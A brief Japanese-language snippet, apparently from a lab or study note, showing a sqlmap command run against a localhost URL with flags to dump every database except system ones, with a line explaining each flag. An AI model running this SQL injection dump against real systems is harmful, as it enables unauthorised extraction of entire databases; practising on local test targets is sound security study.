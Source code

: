 ```
sqlmap -u http://localhost:8081/?id=1 --dump-all --exclude-sysdbs
```
「--dump-all」は見つかった全てのDBを検索してダンプする   
「--exclude-sysdbs」はデフォルトのDBで時間を浪費しない